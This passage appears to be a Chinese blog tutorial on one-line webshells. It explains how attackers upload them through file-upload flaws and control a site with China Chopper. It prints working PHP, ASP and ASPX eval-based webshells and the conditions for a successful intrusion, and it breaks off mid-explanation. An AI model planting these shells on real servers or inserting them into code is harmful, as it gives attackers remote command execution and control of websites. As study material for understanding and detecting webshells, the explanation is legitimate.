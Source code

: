 # 一句话木马

版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。 本文链接：[https://blog.csdn.net/weixin\_39190897/article/details/86772765](https://blog.csdn.net/weixin_39190897/article/details/86772765)

## 概述

在很多的渗透过程中，渗透人员会上传一句话木马（**简称Webshell**）到目前web服务目录继而提权获取系统权限，不论asp、php、jsp、aspx都是如此，那么一句话木马到底是什么呢?

先来看看最简单的一句话木马：

```text
   <?php @eval($_POST['attack']) ?>
1
```

【**基本原理**】利用**文件上传漏洞**，往目标网站中上传一句话木马，然后你就可以在本地通过中国菜刀`chopper.exe`即可获取和控制整个网站目录。@表示后面即使执行错误，也不报错。`eval（）`函数表示括号内的语句字符串什么的全都当做代码执行。`$_POST['attack']`表示从页面中获得attack这个参数值。

### 入侵条件

其中，只要攻击者满足三个条件，就能实现成功入侵：

```text
（1）木马上传成功，未被杀；
（2）知道木马的路径在哪；
（3）上传的木马能正常运行。
123
```

### 常见形式

常见的一句话木马：

```text
php的一句话木马： <?php @eval($_POST['pass']);?>
asp的一句话是：   <%eval request ("pass")%>
aspx的一句话是：  <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
123
```

我们可以直接将这些语句插入到网站上的某个asp/aspx/php文件上，或者直接创建一个新的文件，在里面写入这些语句，然后把文件上传到网站上即可。

### 基本原理

首先我们先看一个原始而又简单的php一句话木马：

```text
   <?php @eval($_POST['cmd']); ?>
1
```

看到这里不得不赞美前辈的智慧。对于一个稍微懂一些php的人而言，或者初级的安全爱好者，或者脚本小子而言，**看到的第一眼就是密码是cmd**，通过post提交数据，但是具体如何执行的，却不得而知，下面我们分析一句话是如何执行的。

**这句话什么意思呢？**
